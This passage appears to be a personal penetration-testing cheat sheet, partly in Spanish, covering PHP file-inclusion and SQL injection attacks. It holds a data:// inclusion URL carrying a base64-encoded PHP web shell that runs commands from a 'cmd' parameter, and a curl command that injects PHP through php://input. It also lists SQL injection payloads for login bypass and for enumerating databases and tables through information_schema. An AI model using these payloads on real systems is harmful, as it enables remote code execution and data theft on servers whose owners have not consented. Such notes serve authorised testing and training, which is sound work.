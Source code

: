 ```
If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```

##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Command injection

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)


#### Deserialization

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

#### File upload

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%)

#### SQL injection

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli](https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli)

Si sanitizan el nombre de la tabla o de la base de datos podriamos pasarlo a hexadecimal
```shell
tr -d '\n' | xxd -ps y el output 0x"$output"
```

Si es por url hay que usar -- - o # urlencoded, tambien podemos hacer sqli mediante burpsuite

```sql
Distintos payloads serian:
tom' or '1'='1'

tom'-- -

tom'#

admin')#
```

```
ERROR BASED:

$data' 
# si nos muestra un error significa que podriamos injectar querys a sql

$data' union select 1-- -

$data' union select schema_name from information_schema.schemata-- - 
# detectar bases de datos

$data' union select table_name from information_schema.tables where table_schema="$basedatos"-- - 
# enumerar tablas de la base de datos

```
